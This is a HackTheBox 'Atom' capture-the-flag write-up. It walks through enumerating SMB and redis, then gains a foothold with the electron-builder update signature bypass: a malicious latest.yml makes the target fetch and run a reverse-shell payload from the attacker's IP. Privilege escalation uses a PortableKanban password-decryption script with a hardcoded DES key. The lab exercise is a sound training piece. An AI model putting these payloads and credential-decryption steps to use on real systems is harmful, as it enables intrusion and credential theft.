 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: ctf
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

<hr>

Its me **m3rcer** back with another one .
This is a fun little box w a medium difficulty. There's a few rabbit holes but other than that its quite straightforward . In my opinion i found the privesc a bit harder than the inital foothold . 

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*

Lets Begin!

<hr>

### ENUMERATION

We kick it off w a usual nmap scan . In this case a default script and version scan w the verbose flag to see open ports on the fly without having to wait for the scan to finish.

![screenshot](/images/atom1.png)


A full port scan reveals redis is active on port 6379 along w winrm at 5985 which shows we can probably use remoting with authentic creds.

<p align="left">
 <img src="imageatom2.png">
</p>

We start off by checking port 80:
We find a possible uname at th end of the pg : __MrR3boot@atom.htb__

From this we infer and add atom.htb to /etc/hosts list. And continue browsing .

Directory Bruteforcing w gobuster results in nothing too great so moving on! 

**Enumerating redis:**

<p align="left">
 <img src="imageatom7.png">
</p>

Much cant be enumerated since redis requires auth . Checking the format of auth shows it requires only the pass. We could attempt to brute force the pass if nothing turns up from smb.

**Enumerating smb:**

<p align="left">
 <img src="imageatom3.png">
</p>

Smbmap shows use we have access to 2 shares amongst which IPC$ is the default and can be used for named pipe enum using enum4linux later .
Software_Updates seems interesting as we have right access too to it.


Using smbclient to connect to the share:

<p align="left">
 <img src="imageatom4.png">
</p>

The other folders are empty so be grap the pdf. Looking at the pdf given we infer 2 things:


**Built with : electron-builder**

We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here..


This link explains the exploit : [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
In short is a vuln caused my and unescaped variable . We can trigger a parse error in the script .

The exploit bypasses inbuilt signature checks.

<p align="left">
 <img src="imageatom5.png">
</p>

<p align="left">
 <img src="imageatom6.png">
</p>
----------------------------------------------------------------------------------------------------

### FOOTHOLD

**I did the following to recreate the vuln:**

- Generate an msfvenom payload of choice . I generated a rev https exe. and then rename it with a single quote.

<p align="left">
 <img src="imageatom8.png">
</p>

- I renamed the file to d'payload.exe

<p align="left">
 <img src="imageatom10.png">
</p>

- Calculate the hash using the prescribed syntax : 

<p align="left">
 <img src="imageatom9.png">
</p>


- Setup a listener on msfconsole to catch your shell using multi/handler.

- Generate the latest.yml file update: Replace the path and the hash.

```bash
version: 1.2.3
path: http://10.10.14.52/d'payload.exe 
sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
```

- Start a server to host d'payload.exe using: `sudo python -m SimpleHTTPServer 80`

- Finally put the update file in one of the client folders on the share using smbclient.
Wait for about 15-20 secs and let the update happen . You will recieve a meterpreter shell!

<p align="left">
 <img src="imageatom11.png">
</p>

Congrats We now have a reverse shell. 

- A getuid command shows we are ATOM\jason
Awesome!

***GETTING USER.txt***

__C:\Users\jason\Desktop\user.txt__ 

Retrieve contents of the file to see your flag!

----------------------------------------------------------------------------------------------------

### PRIVESC:

**Enumerating with winpeas:**

Begin by dropping winpeas on the box.

<p align="left">
 <img src="imageatom12.png">
</p>

Run it...

Details found :

- Jasons creds :

<p align="left">
 <img src="imageatom13.jpg">
</p>

Dosent allow winrm remoting but...

- A user guide pdf which we might have a look at if needed .... 

<p align="left">
 <img src="imageatom17.png">
</p>


- Since we already know redis was on ... I found its conf file . Looks juicy . Lets have a look:

<p align="left">
 <img src="imageatom14.png">
</p>

- We found the pass for redis. 

<p align="left">
 <img src="imageatom15.jpg">
</p>




**PENTESTING redis:**

Use this [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.

Now follow the steps:

- Connect to redis using:

`redis -h 10.10.10.237`


- Authenticate using the password:

`auth pass`


- Retrive info on the keyspace using:

`info keyspace`


- We see that there is one db - number 0 which has 4 keys.
View the keys by:

`keys *`


- We see a bunch of keys . Retrieve the first or last , it might most likely be the administrator using:

`get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`


<p align="left">
 <img src="imageatom16.jpg">
</p>


- We now have the administrator hash ! RightOn!


Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for clues and i found :

<p align="left">
 <img src="imageatom18.png">
</p>

Googling around made me figure that portable-kanban stores the settings for the enc pass.

Searching around for an exploit i found an enc password disclosure vuln [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/) .

- Remove the unnecessary except statement.

The python script:

```python
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```
- Install des using ... `sudo pip3 install des` as stated in the script.

- Run the script , i/p your hash and get the decrypted hash. 

<p align="left">
 <img src="imageatom20.jpg">
</p>


We now finally have the password of admin. 

Lets try winrm again using these creds.... 


<p align="left">
 <img src="imageatom19.jpg">
</p>

**GETTING Root.txt**

__type C:\Users\Administrator\Desktop\root.txt__

And thats a wrap!

### Bookmark to recieve the latest writeups!






